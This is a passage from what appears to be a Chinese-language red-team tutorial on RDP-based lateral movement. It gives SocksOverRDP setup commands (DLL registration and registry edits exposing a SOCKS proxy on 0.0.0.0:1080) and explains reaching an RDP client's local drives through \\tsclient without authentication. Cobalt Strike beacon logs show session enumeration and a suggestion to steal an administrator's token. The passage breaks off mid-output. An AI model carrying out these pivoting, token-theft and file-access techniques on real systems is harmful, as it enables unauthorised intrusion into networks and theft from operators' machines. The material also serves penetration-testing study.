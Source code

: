 ```
# 注册 dll（会弹出通知窗）
regsvr32.exe SocksOverRDP-Plugin.dll
# 配置 SOCKS 服务地址为 0.0.0.0
reg add "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Terminal Server Client\Default\AddIns\SocksOverRDP-Plugin" /v "ip" /t REG_SZ /d 0.0.0.0 /f
# 配置 SOCKS 服务端口为 1080
reg add "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Terminal Server Client\Default\AddIns\SocksOverRDP-Plugin" /v "port" /t REG_SZ /d 1080 /f
# 运行 SOCKS 服务
SocksOverRDP-Server.exe

# 取消注册 dll
regsvr32.exe /u SocksOverRDP-Plugin.dll
```

## TSClient

tsclient 是通过远程桌面连接到远程计算机时，在远程计算机「网上邻居」中出现的一个机器名，实际为远程计算机分配给本机的名称。

在远程计算机中，可以通过 `\\tsclient\盘符` 访问用户（RDP 客户端）本地计算机。其访问方式类似于使用 smb 进行文件传输，虽然本质上都是 smb 协议，但是使用 tsclient 无需身份认证。

---

限制条件：默认情况下 mstsc 是不开启磁盘共享功能的，必须要手工开启。

开启方法，如图所示：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/2dbefa1c066c0bfc.png){: w="350" }

- 打开“远程桌面连接 (mstsc)”选择“本地资源”选项卡；
- 点击“本地设备和资源”下的“详细信息”；
- 配置想要共享到远程计算机的本地磁盘驱动器。

虽然限制条件较为苛刻，但在实际环境中，很多运维人员为了方便操作，通常会挂载本地磁盘，因此这一方法并非全然无用，需要根据实际情况判断。

当发现有用户（运维）正在使用远程桌面连接该服务器时：

```console
beacon> shell qwinsta
[*] Tasked beacon to run: qwinsta
[+] host called home, sent: 38 bytes
[+] received output:
 会话名            用户名                   ID  状态    类型        设备
>services                                    0  断开
 console                                     1  已连接
 rdp-tcp#0         John                      2  运行中
 rdp-tcp                                 65536  侦听
```

可以尝试偷取该用户的身份令牌，以该用户的身份执行 `net use` 命令，如果查看到如下网络连接，则表示该用户在连接远程服务器时开启了 tsclient 磁盘挂载：

```console
beacon> shell whoami
[*] Tasked beacon to run: whoami
[+] host called home, sent: 37 bytes
[+] received output:
win-web\john

beacon> shell net use
[*] Tasked beacon to run: net use
[+] host called home, sent: 38 bytes
[+] received output:
会记录新的网络连接。


状态       本地        远程                      网络
```